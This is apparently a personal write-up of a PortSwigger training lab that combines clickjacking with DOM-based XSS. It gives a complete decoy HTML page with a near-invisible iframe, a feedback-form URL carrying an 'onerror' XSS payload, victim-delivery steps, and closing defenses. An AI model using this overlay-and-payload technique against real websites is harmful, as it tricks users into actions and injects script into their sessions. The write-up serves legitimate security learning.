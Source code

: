 # Exploiting clickjacking vulnerability to trigger DOM-based XSS

## Lab URL:
https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss

## Summary:
This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the `Click me` button to call the `print()` function. 

## Steps to Reproduce:
1. Host the following code on the exploit server in PortSwigger:
   ```
    <!DOCTYPE html>
    <html lang="en">
    <body>
        <style>
            body {
                margin: 0;
                padding: 0;
                height: 100vh;
            }

            iframe {
                position: relative;
                width: 100%;
                height: 100%;
                z-index: 2;
                opacity: .00001;
            }

            div {
                width: 100%;
                position: absolute;
                height: 700px;
                z-index: 1;
            }

            button {
                top: 810px;
                position: absolute;
                left: 367px;
                padding: 10px 49px;
                border-radius: 127px;
                background-color: rgb(23, 99, 23);
                color: white;
                font-weight: 500;
                font-size: 18px;
                border: none;
            }
        </style>
        <div>
            <button>Click Here!</button>
        </div>
        <iframe
            src="https://0ae8004603e17bed806003c9002f00ba.web-security-academy.net/feedback?name=<img src=x onerror=print()>&email=anonymous@gmail.com&subject=anonymous&message=anonymous"></iframe>
    </body>
    </html>
   ```

2. Send the exploit server link to the victim.
3. When the victim visits the page and clicks the visible button, the hidden `iframe` button underneath is clicked instead, triggering the print() function by the `DOM-XSS` payload.

## Explanation:
- This page is vulnerable to DOM-based XSS attack.

- By inspecting the feedback page source, you will notice that user input from the `name` parameter is inserted using `innerHTML`.

- This allows XSS via payloads like `<img src=x onerror=alert()>`.

- Clickjacking is used as a carrier for another attack such as a `DOM XSS` attack, so we can use `Clickjacking` to perform `DOM-based XSS` attack

- To exploit it via clickjacking:
  	- We craft a decoy webpage with a visible button.
	- Behind it, we overlay a transparent `iframe` containing the vulnerable feedback form which is vulnerable to `DOM-based XSS`.
	- Using URL parameters, we prefill the form fields with malicious data, including an XSS payload in the `Name` field.
	- The iframe is styled with `z-index: 2` and very low `opacity` to remain hidden.
	- Our visible button is placed in the same position as the hidden `Submit feedback` button inside the `iframe`.
	- When the victim clicks the visible button, they are actually clicking the hidden button, submitting the malicious form and triggering the XSS.

## Recommendation:
- Apply `X-Frame-Options` and `Content-Security-Policy` in the request headers to prevent `Clickjacking` attacks
- Avoid using `innerHTML` to insert user controllable data into DOM.

## Screenshot:
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_one.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_two.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_three.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_four.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_five.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_six.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_seven.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_eight.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_nine.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_ten.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_eleven.png)
![screenshot](https://raw.githubusercontent.com/abdalla-samir/Web-Vulnerabilities-Reports/main/my_learning_journey/ClickJacking/report_one/report_images/image_twelve.png)
